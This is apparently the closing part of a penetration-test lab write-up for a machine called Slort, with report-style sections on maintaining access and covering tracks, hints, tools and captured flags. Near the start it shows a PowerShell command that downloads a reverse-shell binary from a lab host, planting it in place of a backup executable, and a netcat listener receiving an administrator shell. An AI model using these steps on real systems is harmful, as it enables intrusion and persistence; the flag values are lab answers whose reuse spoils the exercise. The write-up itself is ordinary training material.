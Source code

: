 ```bash
powershell.exe "Invoke-WebRequest -Uri 'http://192.168.49.224/rshell.exe' -OutFile 'C:\backup\TFTP.exe'"
```
```bash
sudo nc -nvlp 443
whoami

# output
slort\administrator
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. Victor added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.

## Covering Tracks
The house cleaning portions of the assessment ensures that remnants of the penetration test are removed. Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road. Ensuring that we are meticulous and no remnants of our penetration test are left over is important. After the trophies on both the lab network and exam network were completed, Victor removed all user accounts and passwords as well as the Meterpreter services installed on the system. Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items
## Tools Used
* nmap
* dirb
* nc
* msfvenom

## Hints
* Bruteforce port 8080.
* The page parameter is vulnerable to file inclusion.
* Explore the Backup folder. 

## Flags
* Local: ef3a83cf19616fdb97d3cffb217fc824
* System: 191691e7d13c7151c408d8bb733c1011
